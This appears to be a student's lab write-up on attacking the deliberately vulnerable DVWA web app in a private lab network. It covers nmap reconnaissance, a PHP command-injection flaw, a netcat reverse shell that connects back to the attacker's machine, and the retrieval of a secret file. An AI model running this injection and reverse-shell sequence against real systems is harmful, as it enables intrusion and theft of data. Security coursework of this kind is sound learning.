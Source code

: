 Tutorial 4: Server-Side Web Vulnerabilities
===========================================

Gathering information on `dvwa`
-------------------------------
We are exploiting a web application hosted on `dvwa`. As such, we want to gather the following information:
1. `dvwa`'s IP address
2. The operating system it's running
3. The web server software (and version) it's using to serve content
4. The version of PHP being used to execute PHP scripts hosted on the web server

This can be done using `nmap`:
1. I tried `nmap -sP 10.6.66.1/24`, like in the previous lab to try and find `dvwa`'s IP. However this only revealed 10.6.66.1 (DHCP server) and 10.6.66.64 (`kali_vm` or ourselves). That's cause I didn't launch `dvwa` (I might be slightly retarded). After launching it, I identified its IP as **10.6.66.42**.
2. To identify the OS, I used `nmap -O 10.6.66.42`, which provided the following relevant information:
```
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel.:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```
This identifies the OS as anything between Linux 3.2 and 4.9.
3. `nmap -sSV 10.6.66.42` was used to perform a scan of the popular TCP ports and identify their versions:
```
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian) PHP/5.6.29-0+deb8u1)
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:05:A6:4D (Oracle VirtualBox virtual NIC)
```
This not only identified the web server software as **Apache 2.4.10**, but also identified the PHP version as **5.6**

**Questions**
1. The way `nmap` determines a host's operating system is that it sends specific tcp packets and fingerprint the responses using TCP/IPS fingerprinting. The Linux 3.2 - 4.9 OS must send out the same response, and as such it can't distinguish between them.
2. Another way to gain information about the operating system can be using the version provided by `nmap`'s TCP scan. We can see that Apache is running on Debian. The '+deb8u1' indicates that it's Debian 8 (also called "jessie"), see [**here**](https://unix.stackexchange.com/questions/119158/why-do-some-debian-packages-have-a-deb7u2-suffix).
3. An administrator of `dvwa` could setup a firewall to block connections from certain IP addresses. *Check solutions when they're released*

Finding vulnerabilities in `dvwa`
---------------------------------
After connecting to the `dvwa` webpage, we are told to use the *Command Injection* or *File Upload* sections and exploit a vulnerability present in the source code to find a hidden file.

**Command Injection**
*Security Level: low*
Looking at the source code, we can see the following lines of interest:
```
$target = $_REQUEST[ 'ip' ]; // Extracts input we provide to the prompt in the webapp
$cmd = shell_exec( 'ping  -c 4 ' . $target ); // Directly inserts the input into a shell command
```
Looking at this, if we insert a `;` (shell command seperator), `&` (makes preceding command run in background) or `&&` (runs succeeding command sequentially), we can insert another shell command afterwards to be run. To start with, I probed using `; ls -la`, which printed the web-app's working directory on the webpage.

A more interesting exploit that can be done with this is opening a [**reverse-shell**](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/), which essentially gives us a shell in our host computer that executes commands on the target computer. I set it up as follows:
1. Run `nc -lvp 42069` on `kali-vm` (or your attacker computer), where 42069 is the desired TCP port we will be running the connection over.
2. Trick `dvwa` (or victim) into running `nc 10.6.66.64 42069 -e /bin/bash`, where `10.6.66.64` is `kali-vm`'s IP and `42069` is the port we are listening on.
3. In the terminal where you ran netcat on your attacker computer you now have a bash terminal inside the victim!

From here I used the [**locate**](https://linuxize.com/post/locate-command-in-linux/) command as follows: `locate -i secret`, which returns all filenames which contain 'secret' (`-i` makes it case invariant). This identified the secret file in `/home/csn/THIS_IS_THE_SECRET_FILE.txt`. I used `cat` to check the file contents and copied it onto my local machine. MISSION SUCCESS!
